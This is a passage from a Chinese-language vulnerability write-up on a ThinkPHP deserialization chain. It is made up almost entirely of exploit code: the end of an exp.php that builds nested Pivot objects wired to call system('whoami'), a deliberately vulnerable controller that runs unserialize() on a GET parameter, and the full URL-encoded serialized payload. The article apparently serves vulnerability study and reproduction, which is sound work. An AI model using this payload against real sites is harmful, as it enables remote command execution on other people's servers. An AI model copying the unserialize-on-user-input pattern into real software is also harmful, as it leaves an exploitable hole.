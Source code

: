 ```php
            $this->force = true;

            $this->table = $obj;

            $this->withAttr = ['xxx' => ['system']];

            $this->json = ['xxx'];

            $this->jsonAssoc = true;

        }

    }

}

namespace think\model{

    use think\Model;

    class Pivot extends Model{}

    $p = new Pivot(new Pivot());

    echo urlencode(serialize($p));

}
```

以上就是完整的反序列化利用链，总结一遍漏洞触发流程：

### 3.验证exploit

#### 1）index.php类

在index下的controller下的index.php类里面写入反序列化语句，实现简单的逻辑即可。

```php
$c = urldecode($_GET['c']);
unserialize($c);
```



#### 2）生成序列化数据

执行exp.php

```bash
O%3A17%3A%22think%5Cmodel%5CPivot%22%3A9%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A3%3A%22xxx%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00withEvent%22%3Bb%3A0%3Bs%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A18%3A%22%00think%5CModel%00force%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A9%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A3%3A%22xxx%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00withEvent%22%3Bb%3A0%3Bs%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A18%3A%22%00think%5CModel%00force%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3Bs%3A0%3A%22%22%3Bs%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A3%3A%22xxx%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22xxx%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A3%3A%22xxx%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22xxx%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D
```
